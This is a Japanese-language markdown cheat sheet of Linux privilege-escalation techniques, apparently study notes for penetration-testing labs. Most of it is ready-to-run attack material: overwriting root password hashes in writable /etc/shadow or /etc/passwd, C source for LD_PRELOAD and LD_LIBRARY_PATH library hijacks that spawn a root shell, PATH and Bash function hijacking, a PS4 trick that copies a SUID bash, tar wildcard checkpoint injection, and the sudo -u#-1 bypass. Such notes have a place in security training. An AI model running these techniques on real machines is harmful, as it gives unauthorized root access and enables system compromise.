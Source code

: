 # Linux Privilege Escalation2

## 実行フロー
1. コマンドの確認
2. ファイルの確認
3. sudoの確認

## 機密ファイルのパーミッション確認
### /etc/shadow
通常rootユーザーのみ読み取り可能。しかしもし書き込み可能な場合、新しいパスワードハッシュを生成し、rootユーザーのハッシュを上書きする。

新しいパスワードハッシュの生成
```
mkpasswd -m sha-512 [NEW PASSWORD]
```

### /etc/passwd
通常全てのユーザーが読み取り可能だが、書き込みはrootユーザーのみ可能。しかしもし書き込み可能な場合、rootユーザーのパスワードを上書きする。

新しいパスワードの生成
```
openssl passwd [NEW PASSWORD]
```

## ユーザー環境から継承された環境変数の確認
### env_keep オプションの内容を確認する。
```
sudo -l | grep -iF env_keep
```

#### LD_PRELOAD が存在する場合
1. C言語のプログラムを共有ライブラリ(soファイル)にコンパイル
```
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c
```

preload.c
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
        unsetenv("LD_PRELOAD");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

2. コマンドの実行
```
sudo LD_PRELOAD=/tmp/preload.so [COMMAND]
```

#### LD_LIBRARY_PATH が存在する場合
1. プログラムが依存関係にある共有ライブラリを調べる。
```
ldd [COMMAND]
```

2. C言語のプログラムを共有ライブラリ(soファイル)にコンパイル
```
gcc -o /tmp/libcrypt.so.1 -shared -fPIC library_path.c
```

library_path.c
```
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

3. コマンドの実行
```
sudo LD_LIBRARY_PATH=/tmp [COMMAND]
```

#### Memo
LD_PRELOAD : プログラム（コマンド）実行の際に最初にロードする共有オブジェクトを指定する環境変数。  
LD_LIBRARY_PATH : 最初に共有オブジェクトを検索しに行くディレクトリを指定する環境変数。  
COMMAND : sudoで実行できるコマンド。  
setresuid() : Sets real and effective user IDs of the calling process

## コマンドの確認
root権限で実行できるコマンドの確認
```
sudo -l
```

## ファイルの確認
### 怪しいスクリプトの調査
1. LinEnumを実行
2. CronTabに設定されているスクリプトの確認（相対パス or 絶対パス）
3. SUID / SGIDファイルの確認
4. その他ファイルの確認（一般ユーザーのホームディレクトリなど。LinEnumのInteresting Filesセクションも参考）

### 内部コマンドの調査
・シェルスクリプトの場合
```
cat [FILE]
```

・バイナリファイルの場合
1. 読み取り可能な文字列を抽出し、内部で実行されているコマンドを確認。
```
strings [FILE]
```

2. システムコール単位での処理の流れから、実行エラーになっているライブラリやファイルなどを確認。
```
strace [FILE]
strace [FILE] 2>&1 | grep -iE "open|access|no such file"
```

### 権限昇格の実行（コマンドの指定方法ごとに）
・相対パスの場合  
tmpディレクトリに同名のスクリプトを作成。
```
echo '/bin/bash -p' | tee /tmp/[FILE]; chmod +x /tmp/[FILE]
export PATH=/tmp:$PATH
```

・絶対パスの場合  
1. スクリプトが配置されているディレクトリに書き込み権限があるか確認
```
ls -la | grep -iF [DIRECTORY]
```

2. スクリプト自体に書き込み権限があるか確認
```
ls -la [FILE]
```

3. Bashのバージョンを確認（デフォルトシェルがBashの場合）
```
/bin/bash --version
```

・Bash < ver4.2-048  
絶対パスの名前の関数を定義する。
```
function [ABSOLUTE PATH] { /bin/bash -p; }
export -f [ABSOLUTE PATH]
```

・Bash < ver4.4  
suid-env2をデバッグモードで実行する。Bashをデバッグモードで実行する場合、環境変数PS4が利用される。PS4には、/bin/bashのスクリプトをtmpディレクトリにコピーし、SUIDを付与するコマンドをセットする。
```
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
/tmp/rootbash -p
```

4. ワイルドカードの使用を確認  
tarコマンドなどの引数として*を使用し、かつ実行先のディレクトリに書き込み権限がある場合。touchコマンドの引数には絶対パスを指定しないとエラーになる。
```
touch [FILE PATH]--checkpoint=1
touch [FILE PATH]--checkpoint-action=exec=[PAYLOAD]
```

## sudoの確認
```
sudo -V
```

・sudo =< ver1.8.28  
他のユーザーとしてコマンドを実行できる権限（ALL）が与えられている必要あり。
```
sudo -u#-1 /bin/bash
sudo -u#4294967295 /bin/bash
```

